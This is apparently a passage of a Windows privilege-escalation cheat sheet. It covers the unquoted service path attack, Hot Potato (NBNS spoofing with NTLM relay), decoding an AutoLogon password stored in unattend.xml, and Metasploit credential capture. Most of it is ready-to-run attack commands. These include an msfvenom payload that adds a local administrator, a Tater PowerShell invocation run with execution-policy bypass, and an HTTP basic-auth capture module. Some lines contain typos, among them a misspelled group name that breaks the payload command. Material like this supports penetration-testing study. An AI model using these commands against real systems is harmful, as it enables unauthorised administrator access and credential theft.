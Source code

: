 ## Creating payload

msfvenom -p windows/exec CMD='net localgroup administartors user /add' -f exe-service -o common.exe

## POC

sc start unquotedsvc

# Hot Poatato

The technique is a combination of two known windows issues like NBNS spoofing and NTLM relay with the implementation of a fake WPAD proxy server which is running locally on the target host.

WPAD - Web Proxy Auto-Discovery is a protocol which is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods.

```
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

# Password Mining Escalation - Configuration Files

unattend.xml contains setting definitions and values to use during Windows Setup. Options include how to partition disks, where to find the Windows image that will be installed, and which product key to apply. You can also specify values that apply to the Windows installation, such as names of user accounts and display settings. 

```
            <AutoLogon>
                <Password>
                    <Value>cGFzc3dvcmQxMjM=</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>
```

echo "cGFzc3dvcmQxMjM=" | base64 -d => `password123`

# Password Mining Escalation - Memory

## Metasploit

> use auxiliary/server/capture/http_basic
> set URIPATH x
> run
